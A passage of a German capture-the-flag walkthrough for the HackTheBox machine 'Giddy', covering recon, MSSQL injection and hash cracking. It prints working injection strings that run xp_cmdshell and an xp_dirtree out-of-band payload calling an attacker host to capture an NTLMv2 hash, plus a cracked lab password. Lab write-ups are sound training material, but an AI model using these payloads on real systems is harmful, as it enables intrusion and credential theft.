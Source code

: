 # 	Giddy

 Ein kurzes Tutorial für die Maschine "Giddy" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/153

 Die Maschine lehrt insbesondere den Umgang mit Dirb (Suche von Unterverzeichnissen und Dateien), SQL-Injections, Burp, hashcat und Metasploit.

Einschätzung:

![NMAP](Giddy/einschaetzung.png)
 
## Anleitung


 1. NMAP Scan 

    ![NMAP](Giddy/1-nmap.png)


 2. Besuch auf Port 80... Keine besonderen Hinweise auf Schwachstellen. (höchstens Stego im Bild)

    ![NMAP](Giddy/2-port80.png)

 3. Dirb Scan Resultate (zum Scannen siehe Cheat Sheet)... Interessante Verzeichnisse: /remote und /mvc

    ![NMAP](Giddy/3-dirbScan.png)

 4. Dirb Resultate weisen auf Unterverzeichnis "..10./104/remote" hin.

    ![NMAP](Giddy/4-remoteWebsite)

 5. Besuch des /mvc Verzeichnis liefert eine Art Produktübersicht. 
    ![NMAP](Giddy/5-aufrufMVC.png)


 6. Öffnet man ein Item der Webseite, wird man auf folgenden Link weitergeleitet "http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18" Die Vermutung, dass eine SQL-Datenbanksprache verwendet wird, liegt nah. Daher wird versucht, den Request mit einem String zu erweitern, welcher von SQL-Sprachen als Kommentar interpretiert wird.

    ![NMAP](Giddy/6-commentTest.png)
    
    Das Kommentar wird als solches interpretiert und somit ignoriert. Die Kombination aus SQL und ASPX deutet darauf hin, dass es sich um Microsofts Datenbankmanagementsystem MS-SQL-Server handelt.  
    ![NMAP](Giddy/7-sqlVers.png)
    
 7. Es wird ein Injection Cheat Sheet für MSSQL gesucht, um mögliche Schwachstellen ausnutzen zu können. 

    ![NMAP](Giddy/8-cheatSheet.png)

 8. Als erstes wird versucht, mehrere Kommandos hintereinander zu hängen. Diese werden mit ";" getrennt. Der Aufruf von ```bash10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=5;EXEC+master.dbo.xp_cmdshell+'cmd';``` verläuft erfolgreich. Es wird aber kein Output auf der Webseite ausgegeben. Anstatt den befehl "cmd" zu übergeben wird versucht, auf den PC des angreifers zu pingen. ```bash 10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=5;EXEC+master.dbo.xp_cmdshell+'ping+<eigeneIp>'; ```. Um zu verifizieren, dass der Ping angekommen ist, wird mit tcpdump auf icmp Pakete gewartet. ```bash tcpdump -i tun0 icmp ``` Auf dem Interface werden keine ICMP-Pakete angenommen. Der Aufbau einer Reverse Shell wird daher wenig Sinn machen. 
 
    An dieser Stelle ist es hilfreich, nach bekannten Schwachstellen für MSSQL-Server zu suchen.
    
    https://searchsqlserver.techtarget.com/tip/Ten-common-SQL-Server-security-vulnerabilities-you-may-be-overlooking (19.02.2019)

    https://dzone.com/articles/top-cloud-data-security-challenges-alooma   (19.02.2019)
   
     Diese Artikel sind empfehlenswert, um eine Übersicht von möglichen Swachstellen zu erhalten. Aus dem zweiten Artikel wird ersichtlich, dass eine Out-Of-Band Injection hilfreich sein könnte. "Such is the case with Microsoft SQL Server’s xp_dirtree command, which can be used to make DNS requests to a server that an attacker controls...". Der Befehl ist aus dem Cheat Sheet bereits bekannt.
     
     "https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/"  (19.02.2019)
     
     Um eine Verbindung zum Server aufzubauen, kann folgende Anleitung befolgt werden. 
     
     "https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/"
     
     Achtung! Nicht vergessen den Request mit (strg+u) in url Format zu bringen.
    
    ```bash
    /mvc/Product.aspx?ProductSubCategoryId=18%3bdeclare+%40q+varchar(200)%3bset+%40q%3d'\\10.10.14.3\test\testy'%2b(SELECT+SUBSTRING(%40%40version,1,9))%2b'.malicious.com/foo'%3b+exec+master.dbo.xp_dirtree+%40q%3b+--
    ```
    ![NMAP](Giddy/9-request.png)


 9. NTLMv2 Hash in .NTLMv2 Datei speichern. 
    Mit "hashcat -h | grep -i ntlm" nach Modus für NTLM Hashes suchen.

    ![NMAP](Giddy/10-hashcat.png)
    
    Username: Stacy Password:xNnWo6272k7x
    
 

